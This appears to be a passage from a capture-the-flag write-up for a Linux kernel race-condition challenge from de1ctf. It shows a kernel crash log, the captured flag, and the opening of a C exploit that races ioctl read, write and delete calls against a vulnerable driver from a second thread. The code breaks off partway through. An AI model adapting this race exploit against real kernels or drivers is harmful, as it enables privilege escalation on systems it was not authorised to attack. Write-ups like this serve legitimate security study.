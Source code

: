 ```c
...
[   57.524166] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[   57.524274] CR2: 00007ffef6c32a28 CR3: 0000000004460000 CR4: 00000000003006f0
Segmentation fault
/ # $ source ./flag
source ./flag
-/bin/sh: ./flag: line 1: de1ctf{RaCE_C0nd1ti0n_For_FUN}: not found
```

exp :

```c
#include <fcntl.h>
#include <unistd.h>
#include <stdio.h>
#include <sys/mman.h>
#include <stdint.h>
#include <sys/ioctl.h>
#include <string.h>
#include <signal.h>
#include <pthread.h>
#include <stdlib.h>
int tmp;

#define TEST_READ 0x23333
#define TEST_WRITE 0x23334
#define TEST_DEL 0x23335

struct command{
  unsigned long size;
  char* context;
};

void test_r(int fd, unsigned long size ,char* context){
  struct command command;
  command.size = size;
  command.context = context;
  ioctl(fd, TEST_READ, &command);
}

void test_w(int fd ,unsigned long size ,char* context){
  struct command command;
  command.size = size;
  command.context = context;
  ioctl(fd, TEST_WRITE, &command);
}

void test_d(int fd){
  struct command command;
  ioctl(fd, TEST_DEL, &command);
}

char *addr1;
char *addr2;
char *addr3;
int fd;
int fd2;
fuck = 0x300;
void *child(void *arg) {
  for(int i=0;i<0x280;i++){
    fuck++;
    test_r(fd,fuck,addr2);
  }
  pthread_exit(NULL);
```
